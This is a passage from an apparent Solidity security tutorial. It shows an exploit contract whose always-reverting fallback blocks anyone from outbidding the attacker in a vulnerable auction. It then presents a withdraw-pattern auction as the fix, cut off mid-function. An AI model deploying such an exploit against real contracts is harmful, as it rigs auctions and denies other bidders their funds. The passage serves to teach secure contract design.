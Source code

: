 ```solidity
pragma solidity^0.4.24;
/**
 * @title Exploiting Unsafe Auction contract
 * @author Henrique
 */
contract ExploitAuction {
    
    function makeMyBid(address auction_address) public payable {
        Auction auction = Auction(auction_address);
        auction.bid.value(msg.value)();
    }
    
    function() public payable{
        revert(); //always raise an exception
    }
}

interface Auction{ //interface to use the functions on Auction
    function bid() external payable;
}
```

The function "makeMyBid" calls the "bid" on the Auction contract. When someone else tries to outbid the attacker on the Auction contract, the transfer (last line on the "bid" function) will trigger the fallback function on the ExpoitAuction contract. The fallback will raise an exception which will propagate to the bid and undo all changes. Therefore, no one would be able to outbid the attacker.

Use the “Withdraw pattern” to avoid this risk. The pattern is to make each account responsible to withdraw his own funds. In this case, the responsibility to get back their losing bids is delegated to the accounts, which will have to call another function to that. The contract bellow implements an Auction with this pattern.

```solidity
pragma solidity^0.4.24;
/**
 * @title Auction State Machine
 * @author Henrique
 */
contract Auction {
    address owner;
    address winner;
    uint winning_bid;
    mapping(address=>uint) losing_bids;

    enum State{ Accepting_Bids, Auction_Closed }
    State private state = State.Accepting_Bids;
    
    constructor() public {
        owner = msg.sender;
        winning_bid = 0;
        winner = owner;
    }
    
    function bid() public payable{
        require(state == State.Accepting_Bids, "Auction closed.");
        require(msg.value > winning_bid,"Invalid bid.");
    
        losing_bids[winner] += winning_bid;
        winner = msg.sender;
        winning_bid = msg.value;
    }
    
    function withdraw() public {
        uint lost_bids = losing_bids[msg.sender];
```